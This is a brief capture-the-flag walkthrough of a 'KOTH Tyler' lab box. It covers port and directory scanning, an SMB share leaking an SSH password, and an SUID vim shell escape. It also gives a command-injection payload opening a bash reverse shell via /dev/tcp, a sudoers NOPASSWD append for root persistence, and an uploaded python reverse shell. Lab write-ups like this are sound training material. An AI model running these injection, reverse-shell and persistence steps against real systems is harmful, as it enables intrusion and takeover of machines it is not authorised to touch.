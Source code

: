 # KOTH TYLER

----------------
## IP: `10.10.243.130`<br />

----------------
### Open Ports Via Nmap -<br/>

`nmap -sC -sV 10.10.243.130`

```
22
80
139
445
3306
5000
8080
```

![image](images/nmap.png)


##### Subdirectories Via Gobuster -<br />

`gobuster dir -u http://10.10.243.130 -w /usr/share/dirbuster/directory-list-2.3-medium.txt `

```
/upload
/betatest
```

![image](images/gobuster.png)

##### Initial access -<br/> 

![image](images/smb.png)

```
smbclient //tyler.thm/public
```

> we can get narrator's ssh password from here<br/>

username: narrator<br/>
password: X8JEETQmf3hkS65f<br/>

##### Privilege escalation of user `narrator`

`find / -perm -4000 2>/dev/null`

![image](images/suid.png)

```
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### subdirectory - `betatest`

`tdurden;bash -i >& /dev/tcp/<ip>/<port> 0>&1`

![image](images/betatest.png)

> Same Priv-Esc as of narrator using vim <br/>

##### To get full root access -

```
echo "tdurden ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
```

Then just do, `sudo bash` voilà you're root<br/>

##### Upload a `python` rev-shell on PORT `5000`

`http://tyler.thm:5000`<br/>

```
nc -lnvp <port>
```

![image](images/upload-port.png)
